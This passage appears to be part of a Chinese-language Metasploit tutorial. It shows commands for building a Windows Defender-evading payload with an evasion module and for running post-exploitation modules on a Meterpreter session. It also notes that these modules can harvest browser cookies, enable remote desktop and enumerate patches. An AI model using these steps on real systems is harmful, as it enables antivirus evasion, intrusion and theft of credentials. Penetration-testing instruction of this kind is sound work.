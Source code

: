 ```
msf6>use evasion/windows/windows_defender_exe
>show options
### 这里不设置会默认使用x86meterpreter
>run
#生成
```
生成后在导出表中将无法在看到部分函数，真正的代码解密后加载进入内存执行


#### POST

```
msf6>show post
```
handler中使用stage，具有sessions下可以使用

```
#info查看信息，此处post为收集tomcat信息
msf6>info post/windows/gather/enum_tomcat

#使用
meterpreter>run post/windows/gather/enum_tomcat
```

post模块可以发送，注入，收集电脑的信息，比如chrome收集，也会自动去搜索存在的cookie,开启远程桌面等等

部分模块需要提权才可以使用
ep:
post/windows/gather/enum_patches
查看补丁模块

#### 插件

load加载插件,-l查看可以加载的插件
```
load -l
```
token_hunter,sqlmap,thread,wiki等等
ep:
load sqlmap
unload sqlmap
ep:
load nessus
等等

#### get/set

set/setg
get/getg
设置变量/全局变量
ep:
msf6>setg LHOST 192.168.1.1
msf6>getg LHOST
下次use exploit就会设置好
